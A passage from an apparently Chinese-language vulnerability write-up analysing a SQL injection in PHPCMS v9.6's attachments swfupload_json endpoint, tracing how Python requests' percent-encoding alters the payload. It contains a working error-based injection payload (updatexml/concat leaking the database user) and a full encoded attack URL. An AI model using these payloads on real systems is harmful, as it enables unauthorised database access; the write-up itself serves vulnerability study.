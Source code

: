 ```
payload = "%*27 and updatexml(1,concat(1,(user())),1)%23&modelid=1&catid=1&m=1&f=Tao"
url_two = url + "/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%26id={}".format(payload)
```

执行如下图，报`Controller does not exist.`

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDC3xXLeakHSkxNxYAt4ia5saib1hC4eDyHF6dVs85QHbUBia3zBZhLRSmO5O2Fyr331uVN0YAKDBX9jQ/640?wx_fmt=png)

```
http://www.phpcms96.com/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=%2526id=%25*27%20and%20updatexml(1,concat(1,(user())),1)%2523&modelid=1&catid=1&m=1&f=Tao
```

由于是 MVC 架构，我们后面的`m=1`跟前面的`m=attachments`冲突了。我们将后面的`m=1`删除试一试。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDC3xXLeakHSkxNxYAt4ia5sasZSY26ibNFFjCmZeOLqIrjH8adHiauD13cH1QFKehQeG8VLJUibAyyLgw/640?wx_fmt=png)

还有有问题啊，没有`&`符。看到这里，你肯定又会觉得，直接把 id 前面的`%26`改成`&`不就好了嘛？

```
payload = "%*27 and updatexml(1,concat(1,(user())),1)%23&modelid=1&catid=1&m=1&f=Tao"
url_two = url + "/index.php?m=attachment&c=attachments&a=swfupload_json&aid=1&src=&id={}".format(payload)
```

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDC3xXLeakHSkxNxYAt4ia5saUKtGELMhjMsiac0unWyKbqnGiabBjexj42BDzpTj1OMTpbticlhicNtO7w/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDC3xXLeakHSkxNxYAt4ia5sa7bsdjFruQvU0nwuBUOqdUcibjSxsmvyVRF0lBPh2tqFtt0XAD3n15Bg/640?wx_fmt=png)

`src=''`那这个漏洞就没法利用，所以说这个利用思路真的很妙。

就是删除了`m=1`, 就没办法过下面的代码了。

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDC3xXLeakHSkxNxYAt4ia5sagzek5tU1EJoTluFbRice3T96Lfib0eNUEXCfCicgDzVoFlQ1TTLabBKrg/640?wx_fmt=png)

好了好了不绕了，还是整理一下来说吧（前面还有一些细节点没说到）。前面说了一堆，大概情况总结下来如下图：

![](https://mmbiz.qpic.cn/sz_mmbiz_png/nzxUaDY8yDC3xXLeakHSkxNxYAt4ia5saiaz1iacfG2hiczEsa3DGa0k5JUwvUn77ibOogMR5sexeVdgfzhM3lwVwKQ/640?wx_fmt=png)

则这一切一切原因就是`id=%*27`这段部分，为什么这么说呢？贴下处理 URL 的代码吧 (重点关注注释`!!!`的代码)

```
// requests源代码 urllib3/util/url.py文件

PERCENT_RE = re.compile(r"%[a-fA-F0-9]{2}")# !!!
.....
   component, percent_encodings = PERCENT_RE.subn(
       lambda match: match.group(0).upper(), component
  )# !!!

   uri_bytes = component.encode("utf-8", "surrogatepass")
   is_percent_encoded = percent_encodings == uri_bytes.count(b"%")# !!!
   encoded_component = bytearray()

   for i in range(0, len(uri_bytes)):
       # Will return a single character bytestring on both Python 2 & 3
       byte = uri_bytes[i : i + 1]
       byte_ord = ord(byte)
       if (is_percent_encoded and byte == b"%") or (# !!!
           byte_ord < 128 and byte.decode() in allowed_chars
      ):
           encoded_component += byte
           continue
       encoded_component.extend(b"%" + (hex(byte_ord)[2:].encode().zfill(2).upper()))

   return encoded_component.decode(encoding)
```